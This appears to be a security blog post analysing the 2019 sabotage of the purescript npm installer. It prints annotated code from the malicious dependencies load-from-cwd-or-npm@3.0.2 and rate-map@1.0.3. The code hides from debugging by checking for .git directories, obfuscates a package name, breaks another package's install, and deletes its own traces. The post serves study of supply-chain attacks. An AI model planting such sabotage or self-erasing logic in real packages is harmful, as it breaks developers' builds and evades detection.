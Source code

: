 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];`

    //Create tasks array containing the Passthrough Stream Constructor.
    //Call tasks.unshift twice, so that it winds up at index 2 later.

  ``if (argLen === 2) {
     if (typeof args[1] !== 'function') {
        throw new TypeError(`Expected a function to compare two package versions, but got ${
          inspectWithKind(args[1])
    }.`);
  }``

  `} else {`

    // call  tasks.unshift 1

  `tasks.unshift(resolveSemverFromNpm);

  }`

      //call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.

`tasks.unshift(resolveFromNpm(modulePkgId));``

`try {
  const results = await Promise.all(tasks);
  let parent = module;`

    //Here comes a do-while loop that works out how the code is being run,
      //by inspecting the parent property of each module in the chain.
        //Check out the path.endsWith("cli")


`do {   
 parent = parent.parent;`

  `try {
    const {path} = parent;`

    //the attacker is deciding whether or not to run the exploit code,
    //by checking on the version of the purescript npm installer,
    //and if there is a .git working directory.  
    //If the code detects a .git working directory, it'll skip the exploit.
    //This is because .git directories aren't present in production environments,
    //so it makes debugging this issue way harder.
    // The intent is to  determine if a particular version of an installer is being run,
    //and if the code is being run in a environment where it could be easily debugged!



`if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
      parent = 'npm';
      break;
    }
  } catch (_) {}
} while (parent);`

    //The purpose of this parent variable is just the layup for the exploit code if
      //the above conditions are met to allow for it.


`if (typeof parent !== 'string') {
    return results[2];
}`


    //here's that [2] what's happening here is an if statement
    //returning the PassThrough constructor
    //in the case where the malicious code is being run,
    //this breaks a related function to pull down some
    //packages to complete the building of the software:


`const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);`




#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");`


    //You'll see the same check here if the code is running in a debug or non production environment.
    //But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:


`do {
  parent = parent.parent;

  try {
    const { path: path } = parent;

    if (
      path.endsWith("cli") ||

      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {

      parent = "npm";
      break;
    }
  } catch (_) {}


} while (parent);

if (typeof parent !== "string") {


  const px = require.resolve(`

      // `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.


`Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );`

      //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!

  `try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}`


      //this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.


  `try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`



#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
